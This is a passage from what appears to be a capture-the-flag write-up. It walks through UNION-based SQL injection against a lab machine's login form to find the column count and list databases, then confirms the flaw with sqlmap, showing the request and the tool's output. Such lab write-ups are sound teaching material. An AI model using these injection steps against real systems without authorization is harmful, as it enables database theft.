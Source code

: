 I’ll try adding numbers to the second `SELECT` until it works (I see “Welcome
2” in the page and the message about redirecting):

![image-20210906202717864](https://0xdfimages.gitlab.io/img/image-20210906202717864.png)

I’ve learned two things here. The SQL query returns six columns, and username
is in the second column.

Now I can replace that `2` with things I want to read. So making it
`database()` returns the current database, writer:

![image-20210906203403105](https://0xdfimages.gitlab.io/img/image-20210906203403105.png)

I can list the databases with a query to the `information_schema` DB:

![image-20210907094512931](https://0xdfimages.gitlab.io/img/image-20210907094512931.png)

There’s two DBs in there, `information_schema` and `writer`. That’s not
immediately obvious, but it’s just jamming all the rows together. I can make
that a bit more readable with `group_concat`:

![image-20210907094715089](https://0xdfimages.gitlab.io/img/image-20210907094715089.png)

#### sqlmap

I could continue manually, but `sqlmap` also works here. I’ll save one of the
requests to login, and make sure there’s no injection in it:

    
    
    POST /administrative HTTP/1.1
    Host: 10.10.11.101
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 40
    Origin: http://10.10.11.101
    DNT: 1
    Connection: close
    Referer: http://10.10.11.101/administrative
    Upgrade-Insecure-Requests: 1
    
    uname=admin&password=password
    

Now I can pass that to `sqlmap`:

    
    
    oxdf@parrot$ sqlmap -r login.req
    ...[snip]...
    got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
    [13:11:24] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
    [13:11:24] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
    [13:11:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [13:11:35] [INFO] POST parameter 'uname' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
    [13:11:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [13:11:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [13:11:40] [INFO] target URL appears to be UNION injectable with 6 columns